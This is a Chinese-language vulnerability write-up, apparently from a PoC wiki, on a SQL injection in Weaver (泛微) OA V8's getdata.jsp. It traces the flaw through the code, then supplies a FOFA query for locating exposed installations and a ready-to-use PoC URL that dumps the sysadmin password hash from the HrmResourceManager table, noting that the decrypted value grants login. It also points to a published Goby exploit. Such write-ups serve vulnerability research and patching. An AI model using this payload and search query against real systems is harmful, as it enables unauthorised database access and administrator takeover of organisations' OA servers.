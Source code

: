 # 泛微OA V8 SQL注入漏洞

## 漏洞描述

泛微OA V8 存在SQL注入漏洞，攻击者可以通过漏洞获取管理员权限和服务器权限

## 漏洞影响

> [!NOTE]
>
> 泛微OA V8

## FOFA

> [!NOTE]
>
> app="泛微-协同办公OA"

## 漏洞复现

在getdata.jsp中，直接将request对象交给

**weaver.hrm.common.AjaxManager.getData(HttpServletRequest, ServletContext) : **

方法处理

![](http://wikioss.peiqi.tech/vuln/fanwei-17.png)

在getData方法中，判断请求里cmd参数是否为空，如果不为空，调用proc方法

![](http://wikioss.peiqi.tech/vuln/fanwei-18.png)

Proc方法4个参数，(“空字符串”,”cmd参数值”,request对象，serverContext对象)

在proc方法中，对cmd参数值进行判断，当cmd值等于getSelectAllId时，再从请求中获取sql和type两个参数值，并将参数传递进getSelectAllIds（sql,type）方法中

![](http://wikioss.peiqi.tech/vuln/fanwei-19.png)

根据以上代码流程，只要构造请求参数

?cmd= getSelectAllId&sql=select password as id from userinfo;

即可完成对数据库操控

POC

```
http://xxx.xxx.xxx.xxx/js/hrm/getdata.jsp?cmd=getSelectAllId&sql=select%20password%20as%20id%20from%20HrmResourceManager
```

查询HrmResourceManager表中的password字段，页面中返回了数据库第一条记录的值（sysadmin用户的password）

![](http://wikioss.peiqi.tech/vuln/fanwei-20.png)

解密后即可登录系统

![](http://wikioss.peiqi.tech/vuln/fanwei-21.png)

##  Goby & POC

> [!NOTE]
>
> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> Weaver OA 8 SQL injection

![](http://wikioss.peiqi.tech/vuln/fanwei-22.png)

